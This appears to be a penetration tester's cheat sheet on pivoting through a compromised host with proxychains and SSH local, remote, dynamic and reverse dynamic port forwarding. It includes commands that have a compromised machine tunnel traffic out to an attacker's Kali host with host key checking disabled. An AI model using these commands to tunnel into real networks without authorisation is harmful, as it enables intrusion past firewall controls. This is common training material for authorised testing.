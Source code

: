# Port forwarding

## Proxychains-ng

Version of proxychains that allows to specify different configurations for each connection. Useful for  running multiple proxies on different ports when pivoting through several subnets.

```
apt-get install proxychains4
proxychains -f <conf file> <command>
```

## SSH

### Local port forwarding

Allow to reach an isolated machine connected to an exploited one by using the exploited machine to forward all packages between the Kali host and the target.

**On Kali:** redirect any traffic (0.0.0.0) to the target by logging in the compromised machine in the middle

```
ssh -N -L <origin ip>:<origin port>:<target ip>:<target port> <middle usr>@<middle ip>
```

### Remote port forwarding

Use this technique if the firewall is blocking incoming connections so it is not possible to establish an SSH session between the attacking machine and the target, but we can establish a connection from the targeted machine towards our host bypassing the firewall’s inbound traffic filters.

Can also be used to expose services running as localhost on the remote machine to the attacker, to the remote machine all connections being forwarded will appear as if they were coming from localhost.

**On compromised machine:** reroute all incoming traffic to attacking machine

```
ssh -N -R <kali ip>:<kali port>:<target address>:<target port> <kali user>@<kali ip>
```

### Dynamic port forwarding

Set a local listening port and have it tunnel incoming traffic to any remote destination through a proxy. Works the same way as a local port forwarding but allows to target different ports and machines without having to create different tunnels for each host or port.

**On Kali:** connect us (127.0.0.1) to any target in network through the machine in the middle

```
ssh -N -D 127.0.0.1:<port> <middle user>@<middle ip>
```

#### Setup:

```
cat /etc/proxychains.conf
#new proxies go under [ProxyList]
socks4 127.0.0.1 <port>
#run commands through proxy
proxychains <command>
```

### Reverse dynamic port forwarding

Works the same way as the Remote port forwarding technique plus the ability to change destination on the target network.

**On compromised machine:** reroute all traffic from any port to the attacker

```
ssh -f -N -R <port> -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i <path to keys> <kali user>@<kali ip>
```

#### Setup:

1\. Create public keys on compromised machine

```
mkdir /tmp/keys
ssh-keygen
cat <path to key>.pub
```

2\. Copy the keys in your kali machine

```
echo from="<domain ip>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa <key.pub content> >> ~/.ssh/authorized_keys
```

3\. configure proxychains

```
cat /etc/proxychains.conf
socks4 <proxy ip> <port>
#run commands through proxy
proxychains <command>
```



